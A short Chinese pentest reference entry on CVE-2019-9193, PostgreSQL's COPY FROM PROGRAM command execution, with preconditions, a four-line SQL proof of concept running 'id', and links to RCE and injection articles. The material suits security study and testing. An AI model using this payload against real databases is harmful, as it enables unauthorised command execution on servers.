## [](#cve-2019-9193-postgresql-%E9%AB%98%E6%9D%83%E9%99%90%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E)CVE-2019-9193 PostgreSQL 高权限命令执行漏洞

**描述**

PostgreSQL 其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

**利用条件**

-   版本 9.3-11.2
-   超级用户或者 pg\_read\_server\_files 组中的任何用户

**相关文章**

-   [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

**POC | Payload | exp**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>DROP TABLE IF EXISTS cmd_exec;<br>CREATE TABLE cmd_exec(cmd_output text);<br>COPY cmd_exec FROM PROGRAM 'id';<br>SELECT * FROM cmd_exec;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/3.png)

- - -

# [](#%E5%8F%82%E8%80%83)参考

-   [渗透中利用 postgresql getshell](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/)
-   [https://github.com/safe6Sec/PentestDB/blob/master/PostgreSQL.md](https://github.com/safe6Sec/PentestDB/blob/master/PostgreSQL.md)
-   [https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql\_hacking.md](https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md)
-   [A Penetration Tester’s Guide to PostgreSQL by David Hayter](https://hakin9.org/a-penetration-testers-guide-to-postgresql/)
-   [Hacking PostgreSQL](https://tttang.com/archive/854/)
-   [PL/Python 安装和使用](https://valleylord.github.io/post/201410-postgres-plpython-install/)
-   [PostgreSQL for red teams](https://www.unix-ninja.com/p/postgresql_for_red_teams)
-   [SQL INJECTION AND POSTGRES - AN ADVENTURE TO EVENTUAL RCE](https://pulsesecurity.co.nz/articles/postgres-sqli)
-   [https://book.hacktricks.xyz/pentesting/pentesting-postgresql](https://book.hacktricks.xyz/pentesting/pentesting-postgresql)
-   [https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql\_hacking.md](https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md)
-   [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
-   [数据库：从注入到提权的全家桶套餐](https://www.freebuf.com/articles/database/270106.html)
-   [实战案例：针对某系统 postgresql 注入](https://mp.weixin.qq.com/s/I5hDjIEzn0rKA9aCZsJw9w)
-   [记一次 pgsql 数据库漏洞利用](https://xz.aliyun.com/t/10202)
-   [Postgresql Superuser SQL 注入 RCE 之旅](https://www.yulegeyu.com/2020/11/16/Postgresql-Superuser-SQL%E6%B3%A8%E5%85%A5-RCE%E4%B9%8B%E6%97%85/)
